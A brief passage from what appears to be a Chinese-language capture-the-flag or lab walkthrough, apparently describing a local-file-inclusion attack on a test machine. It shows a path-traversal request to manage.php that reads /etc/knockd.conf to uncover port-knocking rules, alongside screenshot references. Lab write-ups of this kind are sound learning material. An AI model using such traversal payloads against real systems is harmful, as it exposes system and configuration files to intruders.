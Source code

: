 <img src=".\图片\Snipaste_2023-07-02_16-30-37.png" alt="Snipaste_2023-07-02_16-30-37" style="zoom:80%;" />

接下来仍然 fuzz 测试，可以查看端口敲门的策略 `/etc/konckd.conf`

```http
http://192.168.0.114/manage.php?file=../../../../../../etc/knockd.conf
```

<img src=".\图片\Snipaste_2023-07-02_16-40-18.png" alt="Snipaste_2023-07-02_16-40-18" style="zoom:67%;" />
